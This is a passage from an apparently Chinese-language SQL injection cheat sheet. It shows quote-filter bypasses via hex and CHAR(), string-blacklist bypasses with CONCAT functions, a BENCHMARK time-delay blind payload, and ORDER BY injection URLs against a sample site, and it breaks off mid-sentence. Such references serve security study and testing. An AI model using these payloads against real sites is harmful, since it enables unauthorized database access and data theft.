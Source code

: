 ### 繞過引號限制

```sql
-- hex 編碼
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函數
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 繞過字符串黑名單

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 時，任何個參數爲 null，將返回 null，推薦使用 `CONCAT_WS()`。`CONCAT_WS()`函數第一個參數表示用哪個字符間隔所查詢的結果。

### 條件語句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延時函數

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 後的注入

`order by` 由於是排序語句，所以可以利用條件語句做判斷，根據返回的排序結果不同判斷條件的真假。一般帶有 `order` 或者 `order by` 的變量很可能是這種注入，在知道一個字段的時候可以採用如下方式注入：

原始鏈接：`http://www.test.com/list.php?order=vote`

根據 `vote` 字段排序。找到投票數最大的票數 `num` 然後構造以下鏈接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否變化。還有一種方法不需要知道任何字段信息，使用 `rand` 函數：

```
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

以上兩個會返回不同的排序，判斷表名中第一個字符是否小於 128 的語句如下：
